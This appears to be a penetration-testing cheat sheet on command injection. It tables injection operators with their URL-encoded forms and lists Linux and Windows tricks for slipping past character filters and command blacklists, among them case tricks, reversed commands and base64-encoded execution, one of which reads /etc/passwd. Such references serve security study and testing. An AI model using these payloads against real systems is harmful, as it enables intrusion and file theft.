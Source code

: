 # Command Injections

## Injection Operators
| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|-------------------|---------------------|-----------------------|------------------|
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

## Linux
### Filtered Character Bypass
| Code | Description |
|------|-------------|
| `printenv` | Can be used to view all environment variables |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** | |
| `${PATH:0:1}` | Will be replaced with / |
| `${LS_COLORS:10:1}` | Will be replaced with ; |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one ([ -> \) |

### Blacklisted Command Bypass
| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `$@ or \` | Linux only |
| **Case Manipulation** | |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** | |
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** | |
| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

## Windows
### Filtered Character Bypass
| Code | Description |
|------|-------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** | |
| `%HOMEPATH:~0,-17%` | Will be replaced with \ - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with \ - (PowerShell) |

### Blacklisted Command Bypass
| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** | |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** | |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** | |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |